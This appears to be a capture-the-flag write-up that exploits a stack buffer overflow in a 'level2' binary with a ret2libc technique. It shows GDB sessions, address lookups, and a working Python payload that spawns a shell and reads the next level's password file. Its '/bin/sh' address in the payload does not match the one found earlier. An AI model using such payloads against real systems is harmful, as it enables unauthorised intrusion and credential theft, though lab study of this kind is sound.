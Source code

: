 # Level 2

We found two methods here :

## Methode 1: ret2Libc

First, we have to check if there is an overflow and where.
```sh
$ python ../tools/pattern.py 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

Let's start GDB and launch our program with this pattern
```sh
$ gdb -q ./level2 
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) r <<< Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Starting program: /home/user/level2/level2 <<< Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

The program crash with 0x37634136 in final value, it's out point of entry. Now we can find the size of the buffer crashing the program.
```sh
$ python pattern.py --crash 37634136   
Buffer crashed at size: 80
```
We have our offset, let's try to do a ret2libc exploit. It consists in adding a function call of libc at the end of the EIP register.
We are going to call system() with /bin/sh as argument let’s find those addresses with GDB.
We also need exit() to leave properly and the return address of the main.

```sh
$ gdb -q ./level2 
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048542
(gdb) r
Starting program: /home/user/level2/level2 

Breakpoint 1, 0x08048542 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
(gdb) disass
Dump of assembler code for function main:
   0x0804853f <+0>:		push   %ebp
   0x08048540 <+1>:		mov    %esp,%ebp
=> 0x08048542 <+3>:		and    $0xfffffff0,%esp
   0x08048545 <+6>:		call   0x80484d4 <p>
   0x0804854a <+11>:	leave  
   0x0804854b <+12>:	ret  
End of assembler dump.
```
We also have to find a string containing "/bin/sh", for this we will be helped by the environment:
```sh
$ export HACK=/bin/sh
$ /tmp/getenvaddr HACK ./level2
HACK will be at 0xbffff91d
```

A little resume of the situation:
```
offset:           80
ret address:      0x0804854b
system address:   0xb7e6b060
exit address:     0xb7e5ebe0
/bin/sh address:  0xbffff91d
```

Now, it's time for the exploit :D<br>
`[ OFFSET ] [ RETURN ADDRESS ] [ SYSTEM ADDRESS ] [ EXIT ADDRESS ] [ ARGS ADDRESS ]`

```sh
$ (python -c 'print("A" * 80 + "\x4b\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7")'; cat) | ./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAKAAAAAAAAAAAAK`�����X���
whoami
level3
cat /home/user/level3/.pass
```

Sources:<br>
[0xRick's Blog](https://0xrick.github.io/binary-exploitation/bof6/)<br>
[hackndo](https://beta.hackndo.com/retour-a-la-libc/)<br>
[CTF101](https://ctf101.org/binary-exploitation/buffer-overflow/)<br>
[0x0ff.info](https://www.0x0ff.info/2015/buffer-overflow-gdb-part-2/)<br>